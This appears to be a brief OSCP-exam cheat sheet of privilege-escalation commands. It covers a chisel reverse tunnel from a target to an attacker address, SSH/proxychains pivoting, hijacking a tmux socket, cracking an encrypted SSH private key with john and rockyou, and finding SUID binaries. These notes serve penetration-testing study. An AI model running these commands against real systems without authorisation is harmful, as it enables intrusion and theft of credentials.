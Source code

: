 # OSCP_Cheat_sheet

## Privilege Escalation

1. Port-Forwarding or SSH Tunneling

 a. ./chisel client 10.10.14.21:8080 R:631:127.0.0.1:631 -- target machine

    ./chisel server --reverse -- host machine
    
 b. ssh user@ip -D 1080 -- forrward all traffics on localhost port 1080

    edit /etc/proxychains.conf, add SOCKS 127.0.0.1 1080 

    ssh user@ip -L xxxx.127.0.0.1:xxxx 

    proxychains <command>

 c. 

 2. Attach tmux session

  /usr/bin/tmux -S /.devs/dev_sess

 3. Decrypt id_rsa key with password

   /usr/share/john/ssh2john.py id_rsa.encrypted > id_rsa_ssh2john

   john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_ssh2john

   openssl rsa -in hype_key_encrypted -out hype_key_decrypted

 4. Finding SUID binaries

   find / -perm -4000 2>/dev/null

   
